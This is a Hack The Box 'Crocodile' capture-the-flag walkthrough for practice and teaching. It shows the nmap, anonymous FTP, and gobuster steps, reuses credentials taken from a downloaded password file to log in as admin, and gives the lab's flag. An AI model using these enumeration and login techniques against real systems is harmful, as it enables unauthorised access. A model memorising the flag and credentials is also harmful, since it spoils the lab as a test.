

# Crocodile

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. What Nmap scanning switch employs the use of default scripts during a scan?

> -sC

#### 2. What service version is found to be running on port 21?

```sh
$ nmap -A -T4 10.129.224.66
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:57 CET
Nmap scan report for 10.129.224.66
Host is up (0.036s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.107
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
1524/tcp filtered ingreslock
1972/tcp filtered intersys-cache
2809/tcp filtered corbaloc
3880/tcp filtered igrs
5959/tcp filtered unknown
8649/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds
```

> vsftpd 3.0.3

#### 3. What FTP code is returned to us for the "Anonymous FTP login allowed" message?

> 230

#### 4. After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?

```sh
$ ftp 10.129.224.66
Connected to 10.129.224.66.
220 (vsFTPd 3.0.3)
Name (10.129.224.66): anonymous
230 Login successful.
```

> anonymous

#### 5. After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

> get

#### 6. What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

```sh
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> mget *
mget allowed.userlist? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
WARNING! 4 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0,000556 seconds (58 kbytes/s)
mget allowed.userlist.passwd? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
WARNING! 4 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
62 bytes received in 0,000221 seconds (274 kbytes/s)
ftp> ^D221 Goodbye.
$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
```

> admin

#### 7. What version of Apache HTTP Server is running on the target host?

> Apache httpd 2.4.41

#### 8. What switch can we use with Gobuster to specify we are looking for specific filetypes?

> -x

#### 9. Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

```sh
$ gobuster dir -u http://10.129.224.66 -w dictionaries/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.224.66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dictionaries/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.224.66/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://10.129.224.66/css/]
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.224.66/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.224.66/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 311] [--> http://10.129.224.66/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 278]
Progress: 9446 / 9448 (99.98%)
===============================================================
Finished
===============================================================
```

> login.php

#### Submit root flag

Navigate to `http://10.129.224.66/login.php`:



```sh
$ cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Try to login with `admin:rKXM59ESxesUFHAd`:


## Final Flag

> c7110277ac44d78b6a9fff2232434d16

*Created by [bu19akov](https://github.com/bu19akov)*